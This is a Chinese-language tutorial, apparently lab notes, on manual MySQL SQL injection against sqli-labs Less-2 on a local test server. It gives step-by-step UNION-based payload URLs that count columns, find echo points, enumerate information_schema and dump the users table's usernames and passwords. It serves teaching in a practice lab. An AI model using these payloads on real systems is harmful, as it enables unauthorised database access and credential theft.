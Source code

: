 # SQL注入之MYSQL手工注入

本章节重点在于熟悉注入流程，以及注入原理。练习靶场为sqli-labs第二关数字型注入。

### sqli-labs数字型注入

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/a6c51cb8e8ec4a3b8840fa3c8e105f86.png)

在url中输入id值，执行查询sql语句。即可得到对应数据

less-2源码分析：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/d4245f8d3a7b423ebb96ddaa5f894fa8.png)

浏览器 进行数据提交  服务器  ：

```
get 提交  ：  url   数据长度 
     速度快  
	 用于： 

post 提交 ： 服务器    安全性   数据量 
```

### 注入流程

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/708c5f66672d462d8bffd38e68791f2f.png)

### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  则有注入点
		              ==若没有任何报错和提示信息  则没有注入
		2.猜解列名数量 order by 
		比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=3 order by 3
		‘%20’在网页的url被转义成空格
		字段 4个

		3.报错，判断回显点 union 
		比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,2,3
		4.信息收集 
		通过回显点去查看系统的信息
		  数据库版本 version()
		  比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,version(),3
		  
		  高版本：5.0以上  
			系统库： infromation 。。。
		  数据库名称：database（）
		  低版本：5.0以下
		5.使用对应SQL进行注入  
			数据库库名：security
			数据库.表  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 

		database（）


		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()

		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273

		username  password  字段数据  
		select username,password from users
		0x3a指的是:用于作为连接符
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		  
```

#### 具体流程

靶场使用sqli-labs的第二关

判断注入点,随便在网页url，给id随便输入值

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=sda
```

有报错信息，说明有注入点

![image-20240710213731360](2.2 SQL注入之MYSQL手工注入/image-20240710213731360.png)	

由于order by为4就报错，而3没有报错，说明该网站查询的数据中的表只有3个字段。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=3 order by 4
```

![image-20240710213911984](2.2 SQL注入之MYSQL手工注入/image-20240710213911984.png)	

由于有三个字段，所以通过union来判断网站有哪些回显点。union前半部分故意输错，后面的select用于判断有哪些网站的回显点。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,2,3
```

![image-20240710214109172](2.2 SQL注入之MYSQL手工注入/image-20240710214109172.png)	

根据网站回显的位置，去查询该网站使用的数据库名称和版本信息

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,version(),database()
```

![image-20240710214331889](2.2 SQL注入之MYSQL手工注入/image-20240710214331889.png)	

得知该网站所使用的数据库名，接下来查询该数据库的表有哪些，通过mysql的系统库即可查询到。其中group_concat可以在网页显示会符合视觉效果，以免过于难看。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```

![image-20240710214715821](2.2 SQL注入之MYSQL手工注入/image-20240710214715821.png)	

由于拥有user表,我们可以查看user表有哪些字段

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=‘users’
```

![image-20240710214849641](2.2 SQL注入之MYSQL手工注入/image-20240710214849641.png)	

得知user表的账户和密码字段，即可查询

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select% 1,2,(select group_concat(username,0x3a,password)from users)
```

![image-20240710215014005](2.2 SQL注入之MYSQL手工注入/image-20240710215014005.png)	















